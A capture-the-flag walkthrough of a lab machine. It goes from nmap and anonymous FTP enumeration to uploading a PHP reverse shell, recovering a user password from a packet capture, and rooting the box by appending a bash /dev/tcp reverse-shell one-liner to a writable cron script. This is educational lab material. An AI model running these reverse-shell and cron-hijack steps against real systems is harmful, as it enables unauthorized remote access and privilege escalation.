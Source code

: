 ﻿# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![Pasted image 20241023164431.png](../../IMAGES/Pasted%20image%2020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![Pasted image 20241023164907.png](../../IMAGES/Pasted%20image%2020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![Pasted image 20241023165101.png](../../IMAGES/Pasted%20image%2020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![Pasted image 20241023165247.png](../../IMAGES/Pasted%20image%2020241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![Pasted image 20241023165422.png](../../IMAGES/Pasted%20image%2020241023165422.png)
![Pasted image 20241023165648.png](../../IMAGES/Pasted%20image%2020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![Pasted image 20241023164544.png](../../IMAGES/Pasted%20image%2020241023164544.png)

Let's visit the website and try to enumerate it further: 

![Pasted image 20241023165753.png](../../IMAGES/Pasted%20image%2020241023165753.png)
## SOURCE CODE

![Pasted image 20241023165822.png](../../IMAGES/Pasted%20image%2020241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![Pasted image 20241023165853.png](../../IMAGES/Pasted%20image%2020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [reverse shell](../../REVERSE%20SHELLS/MOST%20COMMON%20REVERSE%20SHELLS.md) for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![Pasted image 20241023174700.png](../../IMAGES/Pasted%20image%2020241023174700.png)

Nice, let's send the reverse shell and get our connection:


![Pasted image 20241023174758.png](../../IMAGES/Pasted%20image%2020241023174758.png)

Once I established the connection, I stabilized my shell using the [stable shell tricks](../../Commands/Shell%20Tricks/STABLE%20SHELL.md)

![Pasted image 20241023174947.png](../../IMAGES/Pasted%20image%2020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![Pasted image 20241023175629.png](../../IMAGES/Pasted%20image%2020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![Pasted image 20241023175658.png](../../IMAGES/Pasted%20image%2020241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![Pasted image 20241023180403.png](../../IMAGES/Pasted%20image%2020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![Pasted image 20241023180944.png](../../IMAGES/Pasted%20image%2020241023180944.png)
![Pasted image 20241023180951.png](../../IMAGES/Pasted%20image%2020241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![Pasted image 20241023182634.png](../../IMAGES/Pasted%20image%2020241023182634.png)

If we follow the stream, we are able to see this:

![Pasted image 20241023182732.png](../../IMAGES/Pasted%20image%2020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![Pasted image 20241023182848.png](../../IMAGES/Pasted%20image%2020241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [linux privesc](../../LINUX/LINUX%20PRIVILEGE%20ESCALATION/BASIC%20PRIVESC%20IN%20LINUX.md)

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![Pasted image 20241023183424.png](../../IMAGES/Pasted%20image%2020241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![Pasted image 20241023183735.png](../../IMAGES/Pasted%20image%2020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![Pasted image 20241023184044.png](../../IMAGES/Pasted%20image%2020241023184044.png)

And just like that, we finished the machine:

![Pasted image 20241023184153.png](../../IMAGES/Pasted%20image%2020241023184153.png)

Gg!

